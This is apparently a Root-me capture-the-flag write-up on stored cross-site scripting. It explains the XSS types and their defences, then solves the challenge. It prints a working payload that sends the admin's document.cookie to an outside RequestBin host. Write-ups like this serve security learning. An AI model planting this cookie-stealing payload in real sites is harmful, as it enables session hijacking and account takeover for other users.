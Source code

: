 ```yaml
---
title : Stored XSS
date : 2024-01-02 13:13:00 +0100
categories : [Root-me, Web Client]
tags : [security breach, xss] # TAGS names should always be lowercase
---
```

## Cross-Site Scripting

This challenge introduces the XSS security breach. Let's define the what this vulnerability is.

An XSS (Cross-Site Scripting) flaw is a common security vulnerability that can occur in web applications. It allows attackers to inject and execute malicious code (usually JavaScript) into web pages viewed by other users.

The XSS attack occurs when the web application fails to filter properly data provided by the user and inserts it directly into web pages without encoding the data. This allows an attacker to inject malicious code that will be executed by users' browsers.

There are different types of XSS vulnerabilities:

* **Stored XSS** : Malicious data is stored on the server and displayed on web pages viewed by users. For example, an attacker could inject JavaScript code into a comment field which would then be displayed on a web page, affecting all users viewing that page.

* **Reflected XSS** : Malicious data is included in the page URL and sent back to the server, which then sends it back in the response without filtering it properly. This allows the attacker to create links or direct users to pages containing malicious code.

* **DOM-based XSS** : The XSS attack occurs at the level of the client-side Document Object Model (DOM). The attacker directly modifies the DOM of the web page, which can lead to the execution of malicious code by the user's browser.

XSS attacks can have serious consequences, such as stealing user sessions, disclosing sensitive information, distributing malware or modifying page content. To protect against XSS vulnerabilities, it is essential to implement appropriate security measures, such as validating and filtering input data, encoding data when it is displayed on web pages, and using security mechanisms such as **Content Security Policies** (CSP) to limit authorized script sources.

## Resolution of the challenge

Here the vulnerability is located in the comment section of the web page. It is a **stored XSS** because the comments are saved on the web page. In order to reveal it, I uploaded a comment containing this command :

```html
<script> alert(1) </script>
```
When I sent it, the alert immediatly showed on my browser.
![alert](/img/stored-xss/alert.png)
*XSS vulnerability discovered*

The comment was saved in the *Posted messages* section.
![comment](/img/stored-xss/comment.png)
*Testing for XSS*

Now that the XSS has been detected, I created a [RequestBin](https://pipedream.com/requestbin) in order to steal the administrator session cookie. I sent a command to redirect the web page to my RequestBin : 
```html
<script>document.location='https://eon2qokz2s82vss.m.pipedream.net?cookies =' + document.cookie;</script>
```
Lastly, I received two requests, the first one contained the Google Analytics cookies and the last one provided me the admin cookie.

![answer](/img/stored-xss/answer.png)
*Reception of the cookies*

The password was in the cookie !


